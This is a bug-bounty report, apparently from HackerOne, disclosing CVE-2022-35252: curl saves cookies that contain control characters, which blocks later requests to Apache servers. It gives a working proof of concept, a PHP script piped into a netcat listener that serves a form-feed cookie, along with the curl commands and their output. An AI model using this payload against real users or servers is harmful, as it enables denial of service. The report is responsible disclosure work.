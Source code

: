 # CVE-2022-35252: control code in cookie denial of service

## Report Details
- **Report ID**: 1613943
- **URL**: https://hackerone.com/reports/1613943
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-06-26T08:46:53.990Z
- **Disclosed**: 2022-08-31T10:55:57.488Z

## Reporter
- **Username**: haxatron1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
## Summary:
I took a look at https://github.com/curl/curl/pull/9048/commits/d7bcbc7d8d4b6d972d3da12d54819169a19c287b (a sneak peek on a vulnerability to be announced tomorrow). My guess for that vulnerability is that since cookies are persistent, someone who can trick curl into storing cookies can store large amounts of cookies into curl cookie store, which will prevent curl from ever interacting with the server (due to large request being generated causing a 400 error)

I found a separate way to do this, curl does not implement character check on cookie name or value when saving to cookie store. So for example a form feed '\f' can be saved in curl's cookie store. When form feed is sent by curl to a server such as Apache, Apache will respond with 400 Error (historically, Apache would accept, however now due to HTTP smuggling concerns, Apache will now strictly reject any such control characters.), preventing someone from ever interacting the server with the cookie store.

According to the spec, cookies should not contain control characters anyway, see https://datatracker.ietf.org/doc/html/rfc6265#section-4.1.1.

## Steps To Reproduce:

1. 

In test.php,
`````
<?php
echo("HTTP/1.1 200 OK\r\nDate: Fri, 29 Apr 2022 10:11:55 GMT\r\nServer: Apache/2.4.43 (Debian)\r\nSet-Cookie: a=b\f; \r\nContent-Length: 0\r\nConnection: close\r\nContent-Type: text/html; charset=UTF-8\r\n\r\n");
`````
Setup malicious server,
`````
php test.php | nc -nvlp 3333
`````

2. Cookie with form feed is saved, see 0c byte before the 0a terminator
`````
curl -c cookies.txt http://127.0.0.1:3333
`````
`````
➜  ~ xxd cookies.txt
00000000: 2320 4e65 7473 6361 7065 2048 5454 5020  # Netscape HTTP 
00000010: 436f 6f6b 6965 2046 696c 650a 2320 6874  Cookie File.# ht
00000020: 7470 733a 2f2f 6375 726c 2e73 652f 646f  tps://curl.se/do
00000030: 6373 2f68 7474 702d 636f 6f6b 6965 732e  cs/http-cookies.
00000040: 6874 6d6c 0a23 2054 6869 7320 6669 6c65  html.# This file
00000050: 2077 6173 2067 656e 6572 6174 6564 2062   was generated b
00000060: 7920 6c69 6263 7572 6c21 2045 6469 7420  y libcurl! Edit 
00000070: 6174 2079 6f75 7220 6f77 6e20 7269 736b  at your own risk
00000080: 2e0a 0a31 3237 2e30 2e30 2e31 0946 414c  ...127.0.0.1.FAL
00000090: 5345 092f 0946 414c 5345 0930 0961 0962  SE./.FALSE.0.a.b
000000a0: 0c0a                                     ..
`````
3. Apache will now respond with "400 bad request" on further request to the server using the poisoned cookie store. This because Apache rejects control characters other than \r or \n in the request head.
`````
* Trying 127.0.0.1:80...
* Connected to 127.0.0.1 (127.0.0.1) port 80 (#0)
> GET / HTTP/1.1
> Host: 127.0.0.1
> User-Agent: curl/7.83.1
> Accept: */*
> Cookie: a=b

> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 400 Bad Request
< Date: Tue, 21 Jun 2022 04:09:08 GMT
< Server: Apache/2.4.43 (Debian)
< Content-Length: 301
< Connection: close
< Content-Type: text/html; charset=iso-8859-1
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.43 (Debian) Server at 127.0.1.1 Port 80</address>
</body></html>
`````

## Impact

An attacker can possibly MiTM the connection and poison the cookie store using cookies with control characters, preventing a user / application from ever interacting with the particular HTTP server with the same cookie store.

Possibly same impact as the "cookie limit" vulnerability to be announced tomorrow.

## Attachments
No attachments
